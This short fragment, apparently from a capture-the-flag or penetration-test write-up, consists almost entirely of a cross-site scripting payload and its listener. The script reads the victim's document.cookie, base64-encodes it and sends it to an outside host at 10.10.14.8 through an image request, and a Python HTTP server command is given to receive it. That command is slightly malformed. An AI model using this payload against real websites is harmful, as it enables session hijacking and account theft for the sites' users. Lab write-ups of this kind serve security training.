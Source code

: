 ```<script>var i=new Image(); i.src="http://10.10.14.8/?cookie="+btoa(document.cookie);</script>```

```python3 -m http.server -m 80```
